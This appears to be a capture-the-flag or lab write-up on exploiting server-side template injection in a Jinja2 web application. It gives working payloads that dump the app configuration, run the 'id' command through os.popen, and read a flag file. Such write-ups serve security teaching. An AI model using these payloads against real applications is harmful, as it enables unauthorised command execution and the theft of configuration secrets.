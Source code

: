 # Exploiting SSTI - Jinja2

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise we are already assuming that the web application uses `Jinja` template engine.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets first try to obtain the web application configuration with the following payload:

```jinja2
{{ config.items() }}
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The payload worked perfectly. As we can see, we managed to get the web application configuration. Now lets try to do a Remote Code Execution (RCE)  with this payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!&#x20;

After a few tries we would eventually end with the following payload to retrieve our flag:

{% code overflow="wrap" %}
```django
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found the flag!
